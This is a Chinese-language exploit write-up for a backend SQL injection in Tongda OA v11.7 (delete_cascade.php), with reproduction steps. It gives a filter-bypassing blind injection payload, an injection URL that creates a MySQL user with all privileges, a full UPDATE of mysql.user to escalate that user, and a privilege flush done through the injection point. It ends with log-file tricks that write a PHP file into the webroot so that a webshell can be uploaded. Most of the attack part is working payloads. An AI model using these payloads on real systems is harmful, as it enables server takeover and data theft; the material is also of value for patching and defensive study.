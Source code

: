 # 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.7</a-checkbox></br>

## 环境搭建

<a-checkbox checked>环境地址: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</a-checkbox></br>

## 漏洞复现

在 `general/hr/manage/query/delete_cascade.php` 文件中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-3.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

`inc/common.inc.php` 代码

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-4.png)



使用盲注对SQL注入进行测试



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-5.png)



触发了通达OA的SQL注入拦截

`inc/conn.php`文件中找到过滤机制如下:

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-6.png)



其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：



```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-7.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-8.png)



添加SQL数据库用户



```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```



访问 `http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*



进入 `Myoa/mysql5/bin` 目录 执行 `mysql -upeiqi -p` 输入密码查询所有用户



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-9.png)



发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：



```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-10.png)



然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-11.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell



```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```



上传大马

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-12.png)